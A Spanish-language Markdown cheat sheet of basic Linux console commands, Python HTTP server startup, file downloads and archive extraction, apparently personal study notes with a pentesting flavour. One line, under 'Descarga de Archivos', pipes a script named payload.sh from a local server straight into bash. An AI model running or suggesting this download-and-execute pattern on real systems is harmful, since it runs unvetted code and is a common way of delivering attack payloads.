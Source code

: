 ```yaml
---
aliases:
---
```

---
# Movimiento en Consola 

```bash
pwd        # Muestra la ruta actual en la que te encuentras (Print Working Directory)
ls         # Lista los archivos y carpetas del directorio actual
ls -l      # Lista los archivos con detalles (permisos, tamaño, propietario, fecha, etc.)
ls -a      # Muestra también los archivos ocultos
cd         # Cambia de directorio (Change Directory)
cd ..      # Sube un nivel en el árbol de directorios
cd /ruta   # Va a una ruta específica
mkdir      # Crea un nuevo directorio (Make Directory)
rmdir      # Elimina un directorio vacío (Remove Directory)
rm         # Elimina archivos
rm -r      # Elimina directorios y su contenido de forma recursiva
cp         # Copia archivos o directorios
mv         # Mueve o renombra archivos o directorios
cat        # Muestra el contenido de un archivo
more       # Muestra el contenido de un archivo página por página
less       # Similar a more, pero permite desplazarse hacia atrás
touch      # Crea un archivo vacío o actualiza la fecha de modificación
clear      # Limpia la pantalla de la terminal
echo       # Muestra un texto o variable por pantalla
whoami     # Muestra el nombre del usuario actual
df -h      # Muestra el uso del disco en formato legible
du -h      # Muestra el tamaño de archivos y directorios
ps         # Muestra procesos en ejecución
top        # Muestra procesos en tiempo real (como el Administrador de tareas)
kill       # Termina un proceso por su PID
man        # Muestra el manual de un comando (por ejemplo: man ls)
history    # Muestra el historial de comandos usados
exit       # Cierra la sesión de la terminal
curl ifconfig.me # Muestra la tu ip publica 
host dominio.com # Ip publica del dominio
whois <Ip> # Muestra datos de la ip 
```

---
### Servidor


- Levantarse un servidor con python por el puerto deseado 

```bash
python3 -m http.server 80  
```

---
### Descarga de Archivos

- Descarga un archivo desde el servidor levantado y que se ejecute con el interprete deseado

```bash
curl http://192.168.1.19/payload.sh | bash  # Se descargar el payload.sh y lo ejecuta con bash
```

- Descarga de Archivos de Dominios

```bash
wget https://example.com/archivo.zip
```

- Descarga de Archivos mediante repositorios de github

```bash
git clone https://github.com/ejemplo.git
```


---

### Comandos para extraer archivos Comprimidos

```bash
gunzip     # Descomprime archivos .gz
gzip -d    # Alternativa a gunzip para archivos .gz
tar -xvf   # Extrae archivos .tar
tar -xzvf  # Extrae archivos .tar.gz o .tgz
tar -xjvf  # Extrae archivos .tar.bz2
tar -xJvf  # Extrae archivos .tar.xz
unzip      # Descomprime archivos .zip
unrar x    # Descomprime archivos .rar (requiere paquete unrar)
7z x       # Descomprime archivos .7z (requiere paquete p7zip)
uncompress # Descomprime archivos .Z
```

